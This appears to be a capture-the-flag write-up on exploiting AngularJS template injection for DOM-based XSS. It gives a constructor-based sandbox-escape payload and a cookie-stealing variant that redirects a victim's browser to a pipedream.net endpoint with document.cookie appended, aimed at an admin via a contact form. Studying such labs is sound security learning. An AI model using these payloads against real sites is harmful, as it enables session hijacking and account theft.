




# Introduction

Tonight I'm doing another challenge for XSS vulnerabilities, specially with AngularJS which is a really common framework for developing webapps.

As you may know ["Cross-site scripting carried out on websites accounted for roughly 84% of all security vulnerabilities"](https://en.wikipedia.org/wiki/Cross-site_scripting)
This time I had some fun with this new challenge which consisted about finding a XSS DOM-based vulnerability with ["Angular Expressions"](https://www.w3schools.com/angular/angular_expressions.asp)


## First things first!

The way Angular binds data into the HTML is via expressions, and AngularJS expressions are written in double braces `{{}}`

- As a first step (and we assume our vulnerable webapp is using Angular as the underlying technology) a `ng-app` **must appear** inside the source code. Otherwise our AngularJS expressions won't work
- Then, a vulnerable user input should be localized (in order to inject our payloads)
- Before the last step, we must ensure that the vulnerable input field is within the `ng-app` directive
- At last, let's put our XSS Payload inside braces, we can test it with one such as: `` {{$on.constructor("alert(1)")()}}`` *


* We are using "$on.constructor" in this case because we want to use dependency injection upon the new DOM node creation, you can find more info [here](https://angular.io/guide/dependency-injection#providing-dependency-1), in this case `NgOnInit` wouldn't work for us because when this latter one is called by Angular, the DOM has been already created. ["Here's an article with more information about it"](https://medium.com/angular-in-depth/the-essential-difference-between-constructor-and-ngoninit-in-angular-c9930c209a42)

### Hands on! :fire:

We have this challenge, with an input that seems to be "unsafe":  


Let's see if the response source-code contains something interesting:



Ahá! We can see the `ng-app` directive and inside it our string (my name in this case)

Let's try to put a simple payload, like the one mentioned avobe ``('{{$on.constructor("alert(\`hello!\`)")()}}')``...


And we have succesfully injected our payload.
It's clearly seen that this payload is seen in the query string part of the URI, so we can use this to steal the admin's cookie.
For this purpose we will have to do 2 things:

1. Adapt the payload to send the response to our desired endpoint (pipedream.net in my case, for simplicity's sake)  
2. Let the admin execute the payload (as this is a vulnerable site, it's done via the contact page :) )

In this example, I'm adapting the payload for stealing the cookie's admin like this:

```sh 
$<protocol>://<domain>/contact?url=[[[[PAYLOAD]]]]

# The payload can be then teared down like:
{{$on.constructor("href=`desired-endpoint.com?querystring=`.concat(admin.cookie)")()}}

# And the resulting query being:
http://vulnerable_domain.com/?url={{$on.constructor("document.location=`https://eoj1ovww5kfcgvi.m.pipedream.net?cookie=`.concat(document.cookie)")()}}"
```
Aaand... there it is!  


We have captured our :sparkles: flag! :sparkles:

## How this vulnerability could have been avoided?

There's a really simple answer: You should **avoid** allowing data from any untrusted source to be dynamically written to the HTML document!! 


Thank you for being here :heart: 
See you around!